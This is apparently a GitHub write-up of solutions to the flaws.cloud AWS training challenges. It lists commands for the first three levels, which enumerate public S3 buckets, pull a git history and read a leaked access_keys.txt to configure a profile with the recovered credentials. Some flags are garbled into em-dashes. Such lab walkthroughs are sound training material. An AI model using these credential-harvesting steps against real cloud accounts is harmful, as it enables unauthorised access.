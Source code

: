 # AWS CLOUD - Pentest

### Below is the solution for both FLAWS and FLAWS2 Challenges

## Flaws challenges [http://flaws.cloud](http://flaws.cloud)

#### Background

[flaws.cloud](http://flaws.cloud/) itself says it best:

    Through a series of levels you'll learn about common mistakes and gotchas when using Amazon Web Services (AWS). 
    There are no SQL injection, XSS, buffer overflows, or many of the other vulnerabilities you might have seen before. As much as possible, these are AWS specific issues.
    
    A series of hints are provided that will teach you how to discover the info you'll need. 
    If you don't want to actually run any commands, you can just keep following the hints which will give you the solution to the next level. 
    At the start of each level you'll learn how to avoid the problem the previous level exhibited.

  Scope: Everything is run out of a single AWS account, and all challenges are sub-domains of flaws.cloud. 


### Levels

**| 1.  Misconfigure public bucket**

`aws s3 ls  s3://flaws.cloud/ —no-sign-request —region us-west-2`

**| 2. Misconfigure public bucket with ACL of was user**

`aws s3 —profile YOUR_ACCOUNT ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud`

**| 3. Misconfigure public bucket with git**

```
aws s3 cp s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud —no-sign-request —region us-west-1 flaws —recursive
cd flaws
Git log
Git checkout f52ec03b227ea6094b04e43f475fb0126edb5a61
cat access_keys.txt
aws configure —profile flaws
aws s3 ls --profile flaws
```
